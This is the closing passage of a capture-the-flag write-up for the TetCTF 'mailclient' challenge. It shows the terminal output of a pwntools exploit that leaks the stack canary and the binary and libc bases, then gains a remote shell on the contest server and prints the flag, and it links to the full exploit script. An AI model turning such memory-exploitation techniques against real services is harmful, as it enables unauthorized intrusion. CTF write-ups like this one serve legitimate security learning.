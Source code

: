 ```
┌──(kali㉿kali)-[~/CTFs/tet/mail/user_build]
└─$ python3.10 exploit.py REMOTE
[*] '/home/kali/CTFs/tet/mail/user_build/mailclient'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/kali/CTFs/tet/mail/user_build/lib/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 139.162.36.205 on port 1337: Done
[+] Leaks suceeded
[*] Canary: 0x1d5f307b787f8c00
[*] Binary base: 0x5590c0c00000
[*] Libc base: 0x7feaecc9a000
[*] Loaded 218 cached gadgets for './lib/libc.so.6'
[+] Leaked filename: /tmp/mail/content/6bMH5uabHh1GNIoc
[*] Switching to interactive mode
TetCTF{2b15f22179fc01196b2e673764e45a7f}
$ ls
flag_e6db1baa29d3df1eb307ff6a12c778da
mailclient
$ id
uid=1000(mailclient) gid=1000(mailclient) groups=1000(mailclient)
$ whoami
mailclient
$ 
[*] Interrupted
[*] Closed connection to 139.162.36.205 port 1337
```

Full exploit [here](https://github.com/Day91/Writeups/blob/master/TetCTF/exploit.py)
## Conclusion
That was a very refreshing challenge and definitely very unique. While it was more logic based and less memory corruption based, I think that was a nice difference and not something you usually see in CTFs. It was very distinctive without being toxic or extremely knowledge-based which isn't very regular in CTFs nowadays, so I thank [@chung96pwn](https://twitter.com/chung96vn) for the challenge!